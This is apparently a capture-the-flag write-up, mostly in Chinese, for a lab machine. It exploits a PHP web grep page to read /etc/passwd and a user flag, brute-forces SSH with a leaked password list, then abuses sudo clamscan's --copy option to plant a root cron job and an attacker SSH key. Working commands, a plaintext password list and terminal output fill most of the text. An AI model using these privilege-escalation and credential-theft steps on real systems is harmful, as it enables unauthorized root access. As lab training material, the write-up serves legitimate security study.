






# /var/www/html/index.php



```
<?php
$results = "";
$error = "";

// 定义可选参数及其描述
$available_options = [
    'r' => 'Recursive (-r)',
    'n' => 'Line Number (-n)',
    'P' => 'Perl-Regexp (-P)',
    'i' => 'Ignore Case (-i)',
    'v' => 'Invert Match (-v)',
    'w' => 'Word Regexp (-w)',
    'l' => 'Files with Match (-l)',
    'c' => 'Count Only (-c)',
    'h' => 'No Filename (-h)',
    'a' => 'Text as Binary (-a)'
];

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $term = $_POST['term'] ?? '';
    $path = $_POST['path'] ?? '.';
    $selected_opts = $_POST['opts'] ?? [];

    // 1. 严格白名单过滤选项
    $flags = "";
    if (is_array($selected_opts)) {
        foreach ($selected_opts as $opt) {
            if (array_key_exists($opt, $available_options)) {
                $flags .= $opt;
            }
        }
    }
    $final_opts = !empty($flags) ? "-" . $flags : "";

    if (!empty($term)) {
        // 2. 严格转义搜索词和路径
        $safe_term = escapeshellarg($term);
        $safe_path = escapeshellarg($path);

        // 3. 构建命令

        exec($command, $output, $return_var);

        if ($return_var === 0 || $return_var === 1) {
            $results = !empty($output) ? implode("\n", $output) : "--- No matches found ---";
        } else {
            $error = "Error Code: $return_var\n" . implode("\n", $output);
        }
    }
}
?>
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>Advanced Web Grep</title>
    <style>
        body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background: #1a1a1b; color: #d7dadc; padding: 20px; line-height: 1.5; }
        .container { max-width: 1100px; margin: auto; background: #272729; padding: 25px; border-radius: 8px; box-shadow: 0 4px 15px rgba(0,0,0,0.5); }
        h2 { color: #fff; border-bottom: 1px solid #343536; padding-bottom: 10px; }

        .input-group { display: flex; gap: 10px; margin-bottom: 20px; }
        input[type="text"] { background: #1a1a1b; border: 1px solid #343536; color: #d7dadc; padding: 12px; border-radius: 4px; flex: 1; }
        button { background: #d93a00; color: white; border: none; padding: 10px 25px; border-radius: 4px; cursor: pointer; font-weight: bold; }
        button:hover { background: #ff4500; }

        .options-grid { display: grid; grid-template-columns: repeat(auto-fill, minmax(180px, 1fr)); gap: 10px; margin-bottom: 20px; padding: 15px; background: #1a1a1b; border-radius: 4px; }
        label { font-size: 14px; cursor: pointer; display: flex; align-items: center; }
        input[type="checkbox"] { margin-right: 8px; }

        pre { background: #050505; color: #4af626; padding: 15px; border-radius: 4px; overflow-x: auto; white-space: pre-wrap; font-size: 13px; border: 1px solid #343536; }
        .err-box { background: #721c24; color: #f8d7da; padding: 15px; border-radius: 4px; margin-bottom: 20px; white-space: pre-wrap; }
    </style>
</head>
<body>

<div class="container">
    <h2>Grep Command Interface</h2>

    <form method="POST">
        <div class="input-group">
            <input type="text" name="term" placeholder="搜索模式 (Regex)..." value="<?php echo htmlspecialchars($term ?? ''); ?>" required>
            <input type="text" name="path" placeholder="目标路径 (./ 或 /var/log/)" value="<?php echo htmlspecialchars($path ?? '.'); ?>">
            <button type="submit">执行搜索</button>
        </div>

        <div class="options-grid">
            <?php foreach ($available_options as $key => $desc): ?>
                <label>
                    <input type="checkbox" name="opts[]" value="<?php echo $key; ?>"
                    <?php echo (isset($selected_opts) && in_array($key, $selected_opts)) ? 'checked' : ''; ?>>
                    <?php echo $desc; ?>
                </label>
            <?php endforeach; ?>
        </div>
    </form>

    <?php if ($error): ?>
        <div class="err-box"><strong>Execution Error:</strong><br><?php echo htmlspecialchars($error); ?></div>
    <?php endif; ?>

    <?php if ($results): ?>
        <h3 style="color:#888;">Result:</h3>
        <pre><?php echo htmlspecialchars($results); ?></pre>
    <?php endif; ?>
</div>

</body>
</html>
```

# /etc/passwd



```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon:/usr/lib/dhcpcd:/bin/false
systemd-timesync:x:991:991:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:990:990:System Message Bus:/nonexistent:/usr/sbin/nologin
sshd:x:989:65534:sshd user:/run/sshd:/usr/sbin/nologin
clamav:x:101:103::/var/lib/clamav:/bin/false
sublarge:x:1000:1000:,,,:/home/sublarge:/bin/bash
lingmj:x:1001:1001:,,,:/home/lingmj:/bin/bash
dingtom:x:1002:1002:,,,:/home/dingtom:/bin/bash
```

通过用户名去读取user.txt

# /home/sublarge/user.txt



```
flag{user-a12a54e153382522c1bbfd247b667b25}
```

term = .+



/home/passwd.txt

```
JPTv153qcST0PGX12zUJ
ZBCwata8n9mhZsqCY4r4
JtNBTwsnG3kDtarwMty7
tSM9QTZQrKQoeyh58TwA
nYlvFBLuBpwfTz4pDA9L
v6hRcJ1uzXJDyaj2vcZa
K71s6LtWVifIPZY6jtxj
9v14Tx7qRVAQyAIgmfrD
eQ4Ykp2rT3ctBeffMlaB
irWi8a6GmY38GRSFQA1s
lxtKObkUq1t16tomPpO6
0ZLiSbbipJqeRsH8CydR
aQNVd6vzG2DSMJYY04u0
D0uS9Gf4sds4siomJuRU
rlU06sHwShjbEeyMltIq
cRyL0libm1TwYW9nG6o1
EgBAn0e95nMC7rc2gznO
QWRRqfkxvUruKKGgx4uk
aQNVd6vzG2DSMJYY04u0
D0uS9Gf4sds4siomJuRU
rlU06sHwShjbEeyMltIq
NGv4KsEHWRBBqh59FcN7
zfVBXGA7iuDL9dVRn3Yh
W7n9LJ9KvfFbe14eNmzN
jXdvsUXps3X4oAj66KEV
yBW7lAUN1RSz8fCzymOK
nivSXoXz3QeWg39ZHNqO
7hoN2Z3AMKzOH05WIuXu
lQLU3Rda7EIjvRLz4cpq
xiEuoLINy9jUC3qf9AD9
6uFuSdQEEKcWHpUMKrW6
qH49Ewe6E6AO1jaDkORO
0sDZ7PnToQMFy3buVB0x
pidUZSSOFi7E6JyXvn0y
mTw1jUX3b8BDM6HdrVTj
KM4I8y1DV1zBibq2C4gr
aobjtRe70eXjFGWToVgQ
```



```
[22][ssh] host: 192.168.100.17   login: sublarge   password: cRyL0libm1TwYW9nG6o1
```

# root

# 写入公钥

```
cat > zzroot <<'EOF'
* * * * * root mkdir -p /root/.ssh && chmod 700 /root/.ssh && echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBK47EAyAcDqxMYzZBPCGRGYrfsvIRWPfDb8cAhu6tJo kali@kali" > /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys
EOF
```

# 设置权限

```
chmod 600 zzroot
```

# 生成 ClamAV 特征库

```
printf "%s:%s:zzroot\n" \
  "$(md5sum zzroot | awk '{print $1}')" \
  "$(stat -c%s zzroot)" > zzroot.hdb
```

# 写入 cron

```
sudo clamscan --no-summary \
  --database=/tmp/zzroot.hdb \
  --copy=/etc/cron.d \
  /tmp/zzroot
```

```
sublarge@SDL:/tmp$ cat > authorized_keys <<'EOF'
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBK47EAyAcDqxMYzZBPCGRGYrfsvIRWPfDb8cAhu6tJo kali@kali
EOF

chmod 600 authorized_keys
sublarge@SDL:/tmp$ printf "%s:%s:authorized_keys\n" \
  "$(md5sum authorized_keys | awk '{print $1}')" \
  "$(stat -c%s authorized_keys)" > ak.hdb
sublarge@SDL:/tmp$ sudo clamscan --no-summary \
  --database=/tmp/ak.hdb \
  --copy=/root/.ssh \
  /tmp/authorized_keys
/tmp/authorized_keys: authorized_keys.UNOFFICIAL FOUND
/tmp/authorized_keys: copied to '/root/.ssh/authorized_keys.001'
sublarge@SDL:/tmp$ ls
ak.hdb  authorized_keys  root.txt  systemd-private-fd6764a1eb4d4957862eb210b460f815-apache2.service-1KIv9N  systemd-private-fd6764a1eb4d4957862eb210b460f815-systemd-logind.service-jxDTtO  zzroot  zzroot.hdb
sublarge@SDL:/tmp$ cat ak.hdb 
330d361d064928162ba62a43d658cdf1:91:authorized_keys
sublarge@SDL:/tmp$ cat > zzroot <<'EOF'
* * * * * root mkdir -p /root/.ssh && chmod 700 /root/.ssh && echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBK47EAyAcDqxMYzZBPCGRGYrfsvIRWPfDb8cAhu6tJo kali@kali" > /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys
EOF
sublarge@SDL:/tmp$ chmod 600 zzroot
sublarge@SDL:/tmp$ printf "%s:%s:zzroot\n" \
  "$(md5sum zzroot | awk '{print $1}')" \
  "$(stat -c%s zzroot)" > zzroot.hdb
sublarge@SDL:/tmp$ sudo clamscan --no-summary \
  --database=/tmp/zzroot.hdb \
  --copy=/etc/cron.d \
  /tmp/zzroot
/tmp/zzroot: zzroot.UNOFFICIAL FOUND
/tmp/zzroot: copied to '/etc/cron.d/zzroot'
```

```
sudo ssh root@192.168.100.17 -i /home/kali/.ssh/id_ed25519
```



```
flag{root-589c85a767de61cb1a1efe7ed0397649}
```
